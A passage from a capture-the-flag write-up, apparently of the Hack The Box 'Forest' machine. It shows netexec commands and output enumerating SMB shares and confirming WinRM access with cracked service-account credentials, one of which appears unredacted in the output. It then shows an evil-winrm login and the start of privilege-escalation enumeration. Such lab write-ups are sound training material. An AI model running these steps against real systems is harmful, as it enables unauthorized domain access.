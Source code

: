 <img width="3786" height="186" alt="2025-08-06 140440" src="https://github.com/user-attachments/assets/ec0115b5-18d2-4973-bc2c-f6de7da777e8" />


And crack the hash with hashcat.

<img width="3819" height="1131" alt="2025-08-06 140705" src="https://github.com/user-attachments/assets/c018b691-7c37-4d17-8692-584973a947f6" />

Now that we have valid credentials, lets enumerate SMB again:

```bash
└─$ nxc smb 10.129.162.127 -u svc-alfresco -p <REDACTED> --shares
SMB         10.129.162.127  445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) 
SMB         10.129.162.127  445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.129.162.127  445    FOREST           [*] Enumerated shares
SMB         10.129.162.127  445    FOREST           Share           Permissions     Remark
SMB         10.129.162.127  445    FOREST           -----           -----------     ------
SMB         10.129.162.127  445    FOREST           ADMIN$                          Remote Admin
SMB         10.129.162.127  445    FOREST           C$                              Default share
SMB         10.129.162.127  445    FOREST           IPC$            READ            Remote IPC
SMB         10.129.162.127  445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.129.162.127  445    FOREST           SYSVOL          READ            Logon server share 

```

Only default windows shares, nothing useful.

We saw port 5985 (WinRM) is open on our nmap scan, so I tested WinRM with netexec:

```bash
└─$ nxc winrm 10.129.162.127 -u svc-alfresco -p <REDACTED>   
WINRM       10.129.162.127  5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.129.162.127  5985   FOREST           [+] htb.local\svc-alfresco:<REDACTED> (Pwn3d!)
```
Works indeed! 

I will authenticate to evil-Winrm and grab the user flag on desktop, first step is done! 

<img width="2255" height="741" alt="2025-08-06 141211" src="https://github.com/user-attachments/assets/9e6c960a-4d2e-49cd-8bfa-47520b1db9a3" />


# Privilege Escalation

Lets enumerate with `whoami /all` what groups and privileges we have.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
```